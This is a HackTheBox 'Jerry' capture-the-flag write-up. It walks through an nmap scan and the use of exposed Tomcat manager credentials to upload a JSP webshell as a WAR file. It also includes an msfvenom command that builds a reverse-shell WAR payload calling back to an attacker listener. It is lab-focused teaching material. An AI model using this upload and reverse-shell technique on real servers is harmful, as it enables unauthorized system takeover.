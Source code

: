 ```yaml
---
title: "HackTheBox - Jerry Writeup"
date: 2022-06-04
draft: false
tags: ["upload-vuln", "rce", "msfvenom", "jsp-webshell", "war-file", "apache-tomcat"]
htb: "HacktheBox"
windows: "Windows"
---
```


## Nmap

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

### Http (Apache Tomcat)
Let's take a look at port `8080` which serve as Http.


![1](apache-default-install-page.png)

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![1](error-page.png)

### /manager/html
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![1](upload-the-war-file-page.png)

## WebShell
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![1](convert-jsp-file-into-war-file.png)

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![1](webshell-created-after-upload.png)

To spawn the shell, just click the `/web shell` path in the table. 


![1](run-the-whoami-in-the-webshell.png)

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

## MSFVenom
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```


![1](created-msfvenom-payload.png)

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![1](nc-reverse-shell-callback.png)